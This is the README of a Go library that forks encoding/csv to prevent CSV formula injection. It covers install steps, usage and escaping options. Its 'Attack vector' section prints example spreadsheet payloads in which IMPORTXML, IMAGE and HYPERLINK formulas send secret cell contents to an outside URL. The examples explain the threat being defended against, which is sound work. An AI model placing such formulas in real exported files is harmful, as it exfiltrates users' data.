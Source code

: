
# Safe CSV writer

[![tag](https://img.shields.io/github/tag/samber/go-safe-csv-writer.svg)](https://github.com/samber/go-safe-csv-writer/releases)
![Go Version](https://img.shields.io/badge/Go-%3E%3D%201.16-%23007d9c)
[![GoDoc](https://godoc.org/github.com/samber/go-safe-csv-writer?status.svg)](https://pkg.go.dev/github.com/samber/go-safe-csv-writer)
![Build Status](https://github.com/samber/go-safe-csv-writer/actions/workflows/test.yml/badge.svg)
[![Go report](https://goreportcard.com/badge/github.com/samber/go-safe-csv-writer)](https://goreportcard.com/report/github.com/samber/go-safe-csv-writer)
[![Coverage](https://img.shields.io/codecov/c/github/samber/go-safe-csv-writer)](https://codecov.io/gh/samber/go-safe-csv-writer)
[![Contributors](https://img.shields.io/github/contributors/samber/go-safe-csv-writer)](https://github.com/samber/go-safe-csv-writer/graphs/contributors)
[![License](https://img.shields.io/github/license/samber/go-safe-csv-writer)](./LICENSE)

A fork of `encoding/csv` package from Go stdlib, preventing CSV injection and data exfiltration, while maintaining compatibility with the original library.

## 🥷 Attack vector

### Simple formula

The following CSV:

```csv
col1,col2,col3
-21-21,=A1,42
```

Would be rendered in Excel like this:

```csv
col1,col2,col3
-42,col1,42
```

### Advanced formula

The following CSV might request external resource and leak data.

```csv
userId,secret
1,secret1
2,secret2
3,"=IMPORTXML(CONCAT(""http://samuel-berthe.fr?dump="", CONCATENATE(A1:B6)), ""//a"")"
4,=IMAGE("http://samuel-berthe.fr?dump=" & INDIRECT("B2"))
5,=HYPERLINK("http://samuel-berthe.fr?dump=" & INDIRECT("B2"), "a link")
```

### Protect

See [https://georgemauer.net/2017/10/07/csv-injection.html](https://georgemauer.net/2017/10/07/csv-injection.html).

and [https://owasp.org/www-community/attacks/CSV_Injection](https://owasp.org/www-community/attacks/CSV_Injection)

## 🚀 Install

```sh
go get github.com/samber/go-safe-csv-writer
```

This library is v0 and follows SemVer strictly.

Some breaking changes might be made to exported APIs before v1.0.0.

## 🤠 Getting started

[GoDoc: https://godoc.org/github.com/samber/go-safe-csv-writer](https://godoc.org/github.com/samber/go-safe-csv-writer)

```go
import csv "github.com/samber/go-safe-csv-writer"

func main() {
    var buff strings.Builder

    writer := csv.NewSafeWriter(
        &buff,
        &SafetyOpts{
            ForceDoubleQuotes: true,
            EscapeCharEqual:   true,
        },
    )
    writer.Write([]string{"userId", "secret", "comment"})
    writer.Write([]string{"-21+63", "=A1", "foo, bar"})
    writer.Flush()

    if err := writer.Error(); err != nil {
        panic(err)
    }

    output := buff.String()
    // "userId","secret","comment"
    // "-21+63"," =A1","foo, bar"
}
```

## 🍱 Reference

```go
// Prototype:
func NewSafeWriter(w io.Writer, opts SafetyOpts) *SafeWriter
```

```go
// Available options:

type SafetyOpts struct {
    ForceDoubleQuotes bool
    EscapeCharEqual   bool
    EscapeCharPlus    bool
    EscapeCharMinus   bool
    EscapeCharAt      bool
    EscapeCharTab     bool
    EscapeCharCR      bool
}
```

```go
// Presets:

var FullSafety = SafetyOpts{
	ForceDoubleQuotes: true,
	EscapeCharEqual:   true,
	EscapeCharPlus:    true,
	EscapeCharMinus:   true,
	EscapeCharAt:      true,
	EscapeCharTab:     true,
	EscapeCharCR:      true,
}

var EscapeAll = SafetyOpts{
	ForceDoubleQuotes: false,
	EscapeCharEqual:   true,
	EscapeCharPlus:    true,
	EscapeCharMinus:   true,
	EscapeCharAt:      true,
	EscapeCharTab:     true,
	EscapeCharCR:      true,
}
```

## 🤝 Contributing

- Ping me on Twitter [@samuelberthe](https://twitter.com/samuelberthe) (DMs, mentions, whatever :))
- Fork the [project](https://github.com/samber/go-safe-csv-writer)
- Fix [open issues](https://github.com/samber/go-safe-csv-writer/issues) or request new features

Don't hesitate ;)

```bash
# Install some dev dependencies
make tools

# Run tests
make test
# or
make watch-test
```

## 👤 Contributors

![Contributors](https://contrib.rocks/image?repo=samber/go-safe-csv-writer)

## 💫 Show your support

Give a ⭐️ if this project helped you!

[![GitHub Sponsors](https://img.shields.io/github/sponsors/samber?style=for-the-badge)](https://github.com/sponsors/samber)

## 📝 License

Copyright © 2024 [Samuel Berthe](https://github.com/samber).

This project is [MIT](./LICENSE) licensed.
